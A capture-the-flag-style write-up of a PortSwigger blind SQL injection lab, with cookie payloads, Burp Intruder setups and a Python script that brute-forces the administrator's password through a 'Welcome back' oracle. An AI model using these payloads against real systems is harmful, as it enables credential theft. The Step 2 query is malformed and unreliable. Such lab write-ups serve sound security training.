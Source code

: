 # 🧪 Lab 11: Blind SQL Injection with Conditional Responses Solution

**PortSwigger Lab Link:** [https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses]

**Table of Contents:**
* 1. Lab Description
* 2. Vulnerability
* 3. Exploitation Steps
* 4. Python Automation Code
* 5. Key Learnings/Concepts
* 6. Mitigation

---

## 1. Lab Description

This lab introduces **Blind SQL Injection** where the server does **not** return direct data or errors. The vulnerability is found in the **`TrackingId` cookie**. The **oracle** (true/false indicator) is a **"Welcome back" message** displayed on the page if the injected condition is true, and no message if the condition is false. The goal is to **dump the administrator's password**.

---

## 2. Vulnerability

The vulnerability is **Boolean-based Blind SQL Injection**. The application uses input from the `TrackingId` cookie in an SQL query, allowing an attacker to append a logical condition (`AND`) that controls a noticeable application response (the "Welcome back" message).

* **Test 1 (True Condition):** `TrackingId=0987abc' AND 1=1--` $\implies$ Get "Welcome back" because `1=1` is true.
* **Test 2 (False Condition):** `TrackingId=0987abc' AND 1=2--` $\implies$ Do not get "Welcome back" because `1=2` is not true.

---

## 3. Exploitation Steps

### 🔹 Step 1: Find Password Length (Brute-force/Sniper)

The first step is to find the length of the password using the `LENGTH()` function.

1.  **Burp Intruder Setup (Sniper):** Send the request to Intruder. Set the attack type to **Sniper**.
2.  **Payload Position:** Select the number `N` in the payload (using `§N§`):
    ```sql
    ' AND LENGTH((SELECT password FROM users WHERE username='administrator')) = N--
    ```
3.  **Payload Settings:** Set Payload type to **Numbers**, From `1`, To `100`.
4.  **Grep Match:** In **Options $\rightarrow$ Grep - Match**, clear pre-existing lists and add the string `"Welcome back!"`.
5.  **Result:** The request where `"Welcome back"` is displayed indicates the correct length.
    * 📌 **The Password Length is found to be 20**.

### 🔹 Step 2: Extract Password Characters (Burp Cluster Bomb)

Now we need to extract the characters one by one (1st, then 2nd, up to 20th) using the `SUBSTRING()` method.

1.  **Burp Intruder Setup (Cluster Bomb):** Change attack type to **Cluster Bomb**.
2.  **Payload Structure (2 Positions):** The general idea is to check if `SUBSTRING(...)` at position `I` equals character `C`.
    ```sql
    ' AND (SELECT SUBSTRING(password FROM users WHERE username='administrator'), §I§, 1) = '§C§'--
    ```
3.  **Payload Set 1 (Position - `I`):**
    * Payload Type: **Numbers**.
    * From: `1`, To: `20`, Step: `1`.
4.  **Payload Set 2 (Character - `C`):**
    * Payload Type: **Brute Forcer**.
    * Character Set: `abcd...WXYZ012...89` (or the known alphanumeric set).
    * Min/Max Length: `1`.
5.  **Start Attack:** After completing the attack, sort the results by the **Grep Match** column (presence of "Welcome back!"). The successful `(I, C)` pairs reveal the password.

### 🔹 Step 3: Log In and Solve the Lab

1.  Use the extracted 20-character password with the username `administrator`.
2.  Log in to solve the lab.

---

## 4. Python Automation Code

Automation is the easiest way to solve this large brute-force task.

```python
import requests

# Base parameters (Change these for the specific lab instance)
url = '[https://0a54....web-security](https://0a54....web-security)..../filter?category=Lifestyle'  # Example URL
# Define a comprehensive character set
characters = '1234567890abcdefghijklmnopqrstuvwxyz' 

# Base cookie values (Must be copied from Burp for a fresh session)
base_cookie = {'TrackingId':'0987abc', 'session':'0123xyz'} # Example values


def get_length():
    print("Finding password length...")
    for i in range(1, 101): # Check length up to 100
        # Payload for guessing length
        payload = f"' AND LENGTH((SELECT password FROM users WHERE username='administrator')) = {i}--"
        
        # Construct the cookie with the payload
        cookie = base_cookie.copy()
        cookie['TrackingId'] = cookie['TrackingId'] + payload # Append payload to TrackingId
        
        r = requests.get(url, cookies=cookie)
        
        if 'Welcome back!' in r.text: # The oracle condition
            return i
    return None

def get_data(length):
    dumped_password = ""
    print(f"Dumping Data... Please wait.") #
    
    for i in range(1, length + 1): # Iterate through each character position (1 to length)
        temp = ""
        for char in characters:
            # Payload for guessing character C at position I (Note: SQL index starts at 1)
            payload = f"' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), {i}, 1) = '{char}'--"
            
            # Construct the cookie
            cookie = base_cookie.copy()
            cookie['TrackingId'] = cookie['TrackingId'] + payload
            
            r = requests.get(url, cookies=cookie)
            
            if 'Welcome back!' in r.text:
                dumped_password += char
                temp += char
                print(f"\rPassword: {dumped_password}", end="") # Print progressively
                break # Move to the next character position

    print(f"\nGot it! Data: {dumped_password}") # Final result
    return dumped_password

# --- Execution ---
length = get_length()
if length:
    print(f"Password Length: {length}") #
    admin_password = get_data(length)
else:
    print("Could not determine length.")
